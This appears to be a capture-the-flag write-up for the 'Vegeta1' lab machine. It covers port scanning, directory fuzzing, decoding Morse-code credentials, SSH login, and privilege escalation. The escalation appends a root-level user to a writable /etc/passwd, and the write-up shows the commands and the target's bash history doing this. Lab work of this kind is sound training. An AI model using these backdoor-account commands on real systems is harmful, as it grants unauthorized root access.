



## Vegeta1: Writeup

Only two ports are open. 

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f3130673f08302e6daee3209ebd6bba (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC99CVoBmDEZGefSkVfvgPRyFNH5rKQF9KMAsqFTL+Xkbwg2S3t+8tIFpPon/m7SYAH+NTqfv3uYXPq2DkVAXD8i2iXKnRa0+QKHNe2bupBbaTX3xyWGHeL7aBh4Io7xxEiTaCLD9wrDA9aHxHhXdUC0QMvld21dIJygyOoV9P17FC3EwBqJEOjLnCNTxzi25W0f6Gqv1vZXHFeQJfT4CLRZCE8BtpBAaoiKMGFOMJEOy+gVe1YgFim/smodNO51fx7zZKxMjhcE46BBRgcywE1FflXPFx3NYDTkou3Wmo0ENEvXcmD36tZsFeMHLyAv/rD2NG1cCWJp6tfcD/SbSPj
|   256 7d8855a86f56c805a47382dcd8db4759 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJVCfO2orE34rbwG0NoOp8DNLMEusESLX7L7c45ZjSk7DgSn8edbEuGlswfCdyyROevxZ/aHgMQO8avPFE/ZAME=
|   256 ccdede4e84a891f51ad6d2a62e9e1ce0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAc1RjhxOyboK+O9fxD5/tbd04IwXVwrQQDT16A111tu
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I have no usernames, so I'll go for the web service on port 80.
Fuzz the web root. The only way to get ahead here is to gradually use a larger and larger wordlist until you find the key directory, here bulma:

```bash
$ ffuf -u http://192.168.192.73/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 100

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.192.73/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

img                     [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 60ms]
image                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 42ms]
admin                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 44ms]
manual                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 53ms]
                        [Status: 200, Size: 119, Words: 6, Lines: 10, Duration: 47ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 38ms]
bulma                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 39ms]
```

In /bulma, you'll find a wav file of Morse code signals. 



Decode [here](https://morsecode.world/international/decoder/audio-decoder-adaptive.html):



From the message, I believe the creds are this:
`trunks:u$3r`

Try them out:

```bash
$ ssh trunks@192.168.192.73
The authenticity of host '192.168.192.73 (192.168.192.73)' can't be established.
ED25519 key fingerprint is SHA256:rsXPQiqA/9/evxX6rCmmUEw19kPNCvB8JB0r8rYuXR4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.192.73' (ED25519) to the list of known hosts.
trunks@192.168.192.73's password:
Linux Vegeta 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
trunks@Vegeta:~$ whoami
trunks
trunks@Vegeta:~$ id
uid=1000(trunks) gid=1000(trunks) groups=1000(trunks),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
trunks@Vegeta:~$ hostname
Vegeta
trunks@Vegeta:~$ hostname -I
192.168.192.73
trunks@Vegeta:~$ ls
local.txt
```

Collect `local.txt`:

```bash
trunks@Vegeta:~$ cat local.txt
eb2ea549906e89e720c201f3f30211ba
```

Bash history is available, which is odd. Check out:

```bash
trunks@Vegeta:~$ cat .bash_history
perl -le ‘print crypt(“Password@973″,”addedsalt”)’
perl -le 'print crypt("Password@973","addedsalt")'
echo "Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd[/sh]
echo "Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
ls
su Tom
ls -la
cat .bash_history
sudo apt-get install vim
apt-get install vim
su root
cat .bash_history
exit
```

Check out the permissions on `/etc/passwd`:

```bash
trunks@Vegeta:/tmp$ ls -la /etc/passwd
-rw-r--r-- 1 trunks root 1486 Jun 28  2020 /etc/passwd
```

It's writable. Write my own user and give him root privileges:

```bash
# on attacker
$ openssl passwd -1 -salt lemmy password
$1$lemmy$ztKELy8y03kjX1kPJxCJv1

# on target
trunks@Vegeta:/tmp$ echo "lemmy:\$1\$lemmy\$ztKELy8y03kjX1kPJxCJv1:0:0:root:/root:/bin/bash" >> /etc/passwd
```

Become root:

```bash
trunks@Vegeta:/tmp$ su lemmy
Password:
root@Vegeta:/tmp# cd /root
root@Vegeta:~# ls
proof.txt  root.txt
root@Vegeta:~# cat proof.txt
ed5cc38f76dc1de64d5bb7de7912ff15
```

